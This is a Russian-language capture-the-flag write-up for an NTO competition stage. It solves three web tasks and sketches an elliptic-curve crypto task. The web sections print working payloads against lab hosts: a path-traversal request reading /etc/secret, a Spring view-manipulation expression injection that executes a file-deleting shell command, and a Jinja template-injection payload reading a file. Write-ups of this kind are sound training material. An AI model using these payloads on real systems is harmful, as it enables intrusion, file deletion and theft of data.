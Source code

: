 # STAGE 1

# Task solves

## web1

Сначала открываем инструменты разработчика, смотрим и находим строку:

`<a href="/download?file_type=file1.txt">20</a>`

Переходим по ссылке `http://192.168.12.10:5001/download?file_type=file1.txt`
и получаем *hint*:

`Hint_1 maybe in etc/secret ???`

Понимаем, что скорее всего нужно применить `Path Fuzzing`.
Ищем, находим подобные уязвимости и делаем запрос:

`http://192.168.12.10:5001/download?file_type=/../../etc/secret`

Получаем `flag` из файла secret: nto{P6t9_T77v6RsA1}

## web 2

Смотрим иходный код, понимаем, что всё зависит от файла `password.txt` и его нужно удалить/изменить, чтобы `/login` нас впустил. После нескольких часов гуглерства находим статью: `https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability`. Используем уязвимость: `http://192.168.12.13:8090//doc/__$%7BT(java.lang.Runtime).getRuntime().exec(%22rm%20password.txt%22)%7D__::.x.`.
После вводим: `http://192.168.12.13:8090/login?password=password`, радуемся, что получили `flag`.

`flag`: nto{abobovichasdfas} 

## web3

Пробуем разные способы обойти прокси, получаем: "http://192.168.12.11:8001//flag?name=a". Пробуем разные SSTI пейлоады, узнаем, что это jinja, собираем пейлоад: "http://192.168.12.11:8001//flag?name={{request.__init__.__globals__.__builtins__[%22open%22](%22./flag.txt%22).read()}}"

`flag`: nto{Ht1P_sM088Lin6_88Ti} 


## crypto2

По исходному коду понимаем, что нужно восстановить тайное число FLAG (закодированный текст) по известным эллиптической кривой E в кольце целых чисел по модулю p (простое число), генератору G и результату P = G * FLAG. Иными словами, задача на дискретное логарифмирование. В общем случае задача слишком сложна, но в задаче все параметры геренируются случайно, а значит можно подобрать такую кривую, порядок которой будет иметь достаточно небольшие делители и, переведя задачу в подгруппу с таким порядком, получить (перебором) FLAG по некоему модулю. Получив достаточно таких результатов по разным модулям, восстановим FLAG через китайскую теорему об остатках.

